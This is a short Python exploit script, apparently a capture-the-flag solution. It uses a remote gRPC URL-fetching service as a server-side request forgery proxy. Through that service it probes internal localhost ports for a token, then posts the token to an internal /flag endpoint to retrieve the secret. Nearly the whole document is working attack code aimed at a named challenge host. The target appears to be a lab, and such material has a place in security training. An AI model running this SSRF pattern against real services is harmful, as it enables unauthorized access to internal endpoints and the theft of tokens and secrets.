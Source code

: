 
**exploit.py: Python script to exploit the gRPC SSRF. It fetches a token from localhost:80/token, then uses it to POST to localhost:80/flag to retrieve the flag.**:

```
import grpc
import fetch_pb2
import fetch_pb2_grpc

def fetch_url(stub, url, method="GET", body="", headers={}):
    req = fetch_pb2.FetchRequest(
        url=url,
        method=method,
        body=body,
        headers=headers
    )
    response = stub.FetchURL(req)
    return response.content

def main():
    # Connect to remote gRPC service
    channel = grpc.insecure_channel("chal.78727867.xyz:6666")
    stub = fetch_pb2_grpc.FetchServiceStub(channel)

    # Step 1: Fetch token
    print("[*] Fetching token...")
    for port in [80, 5000, 8080, 6666]:
        try:
            print(f"[*] Trying localhost:{port}/token")
            token = fetch_url(stub, f"http://localhost:{port}/token")
            print(f"[+] Got token from port {port}: {token}")
            break
        except Exception as e:
            print(f"[!] Failed on port {port}: {e}")
    else:
        print("[-] All ports failed")
        return

    print("[+] Got token:", token)

    # Step 2: Submit token to /flag
    print("[*] Fetching flag...")
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    body = f"token={token}"
    flag = fetch_url(stub, "http://localhost:80/flag", method="POST", body=body, headers=headers)
    print("[🎉] FLAG:", flag)

if __name__ == "__main__":
    main()
```
